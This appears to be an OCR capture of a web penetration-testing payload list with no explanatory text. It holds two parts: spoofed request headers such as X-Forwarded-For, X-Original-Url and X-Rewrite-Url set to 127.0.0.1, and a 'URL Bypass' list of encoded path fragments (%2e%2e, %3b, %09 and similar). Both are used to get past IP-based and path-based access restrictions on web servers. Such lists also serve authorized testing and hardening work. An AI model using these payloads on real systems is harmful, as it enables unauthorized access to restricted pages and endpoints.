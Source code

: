 ```
X-Forwarded-By: 127.0.0.1
X-Forwarded-For-Original: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Forwarded-Port: 443
X-Forwarded-Port: 4443
X-Forwarded-Port: 80
X-Forwarded-Port: 8080
X-Forwarded-Port: 8443
X-Forwarded-Scheme: http
X-Forwarded-Scheme: https
X-Forwarded-Server: 127.0.0.1
X-Forwarded: 127.0.0.1
X-Forwarder-For: 127.0.0.1
X-Host: 127.0.0.1
X-Http-Destinationurl: 127.0.0.1
X-Http-Host-Override: 127.0.0.1
X-Original-Remote-Addr: 127.0.0.1
X-Original-Url: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Proxy-Url: 127.0.0.1
X-Real-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Rewrite-Url: 127.0.0.1
X-True-IP: 127.0.0.1

```

URL Bypass

```php
#
#?
%09
%09%3b
%09..
%09;
%20
%23
%23%3f
%252f%252f
%252f/
%2e%2e
%2e%2e/
%2f
%2f%20%23
%2f%23
%2f%2f
%2f%3b%2f
%2f%3b%2f%2f
%2f%3f
%2f%3f/
%2f/
%2f;?
%2f?;
%3b
%3b%09
%3b%2f%2e%2e
%3b%2f%2e%2e%2f%2e%2e%2f%2f
%3b%2f%2e.
%3b%2f..
%3b/%2e%2e/..%2f%2f
%3b/%2e.
```